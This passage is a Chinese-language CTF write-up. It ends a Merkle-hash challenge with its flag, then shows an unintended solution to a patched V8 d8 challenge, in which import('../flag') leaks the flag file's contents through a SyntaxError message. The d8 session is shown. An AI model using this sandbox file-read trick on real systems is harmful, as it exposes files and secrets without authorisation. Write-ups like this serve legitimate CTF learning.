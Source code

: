 ```text
root == root
hash(a, b) == root
hash(b, a) == root
hash(hash(alice, bob), b) == hash(a, b) == root
```

这四组就可以通过验证了。flag: **aliyunctf{scuy6bart2dwep6smad2step6cust}**

---

## 懂得都懂带带弟弟
![](https://img.shields.io/badge/-MISC-informational?style=flat-square)

没正经做出来，也不会 v8，但是这个题的非预期挺 6 的所以记录一下。

一个 js v8 的题，在最新版上 patch 删除掉了 write、read、readbuffer、readline、load、os 等功能，并且 revert 了 commit 30e4ba6df4cdf5582de4d79850bcd270e6a75a7a，加回来了一些之前删掉的序列化的功能。要求是与服务器上运行的 d8 解释器交互，读取到服务器上的 flag。

这题的非预期就是可以直接通过 import() 然后导致加载进来的 flag 内容语法错误，在报错信息中直接打出 flag：

```js
V8 version 11.4.117
d8> import("../flag")
/flag:1: SyntaxError: Unexpected token '{'
aliyunctf{woot_woot_thanks_for_closing_the_issue_hey_it_regressed_rEEOpENPLZhttps__github_com_nodejs_node_issues_18265_6144641bbe2c577a}
         ^
SyntaxError: Unexpected token '{'

/flag:1: SyntaxError: Unexpected token '{'
aliyunctf{woot_woot_thanks_for_closing_the_issue_hey_it_regressed_rEEOpENPLZhttps__github_com_nodejs_node_issues_18265_6144641bbe2c577a}
         ^
SyntaxError: Unexpected token '{'

[object Promise]
d8>
```

同时也可以看到预期做法其实是参考 https://github.com/nodejs/node/issues/18265。